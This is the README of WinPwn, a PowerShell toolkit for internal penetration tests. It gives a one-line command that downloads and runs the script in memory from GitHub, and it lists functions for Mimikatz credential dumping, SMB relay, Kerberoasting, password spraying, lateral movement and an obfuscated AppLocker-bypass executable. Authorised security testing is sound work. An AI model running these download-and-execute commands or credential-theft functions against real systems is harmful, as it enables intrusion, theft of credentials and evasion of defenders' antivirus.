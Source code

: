 # WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. I often ran the same scripts one after the other to get information about the current system and/or the domain. To automate this process and for the proxy reason I wrote my own script with automatic proxy recognition and integration. 
The script is mostly based on well-known large other offensive security Powershell projects. They are loaded into RAM via IEX Downloadstring.

Yes it is not a C# and it may be flagged by antivirus solutions. Windows Defender for example blocks some of the known scripts/functions. Maybe someday a C# Version will follow.

Any suggestions, feedback and comments are welcome!

Just Import the Modules with:
`Import-Module .\WinPwn_v0.7.ps1` or 
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.7.ps1')`

Functions available after Import:
1) #### `WinPwn` -> Guides the user through all functions/Modules with simple questions.
2) #### `Inveigh` -> Executes Inveigh in a new Console window , SMB-Relay attacks with Session management (Invoke-TheHash) integrated
3) #### `sessionGopher` -> Executes Sessiongopher Asking you for parameters
4) #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz
5) #### `localreconmodules` -> Collects infosec relevant system Information, Executes passhunt, Get-Computerdetails and Just another Windows Privilege escalation script + Winspect
6) #### `JAWS` -> Just another Windows Privilege Escalation script
7) #### `domainreconmodules` -> Powerview function output gets stored on disk for review. A search for AD-Passwords in description fields is done. Unconstrained delegation systems/users are enumerated. An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon. 
8) #### `Privescmodules` -> Executes different privesc scripts in memory (PowerUp Allchecks, Sherlock, GPPPasswords)
9) #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) 
10) #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. DomainPassword-Spray for new Credentials can also be used here.
11) #### `empirelauncher` -> Launch powershell empire oneliner on remote Systems
12) #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder (Powerview / Powersploit)
13) #### `groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
14) #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
15) #### `isadmin` -> Checks for local admin access on the local system
16) #### `Sharphound` -> Downloads Sharphound and collects Information for the Bloodhound DB
17) #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record and run Inveigh for mass hash gathering.


The "oBEJHzXyARrq.exe"-Executable is an obfuscated Version of jaredhaights PSAttack Tool for Applocker/PS-Restriction Bypass (https://github.com/jaredhaight/PSAttack).

## TO-DO
- [x] Some obfuskation
- [ ] More obfuscation
- [ ] Proxy via PAC-File support
- [x] Get the scripts from my own creds repository (https://github.com/SecureThisShit/Creds) to be independent from changes in the original repositories
- [ ] More Recon/Exploitation functions
- [ ] msDS-AllowedToActOnBehalfOfOtherIdentity Ressource based constrained delegation

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)

## CREDITS

- [X] [Kevin-Robertson](https://github.com/Kevin-Robertson/) - Inveigh, Powermad, Invoke-TheHash
- [X] [Arvanaghi](https://github.com/Arvanaghi/ - 
- [X] [PowerShellMafia](https://github.com/PowerShellMafia/) - Powersploit
- [X] [Dionach](https://github.com/Dionach/) - PassHunt
- [X] [A-mIn3](https://github.com/A-mIn3/) - WINSpect
- [X] [411Hall](https://github.com/411Hall/) - JAWS
- [X] [sense-of-security](https://github.com/sense-of-security/) - ADrecon
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Sherlock
- [X] [AlessandroZ](https://github.com/AlessandroZ/) - LaZagne
- [X] [samratashok](https://github.com/samratashok/) - nishang
- [X] [leechristensen](https://github.com/leechristensen/) - Random Repo

## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
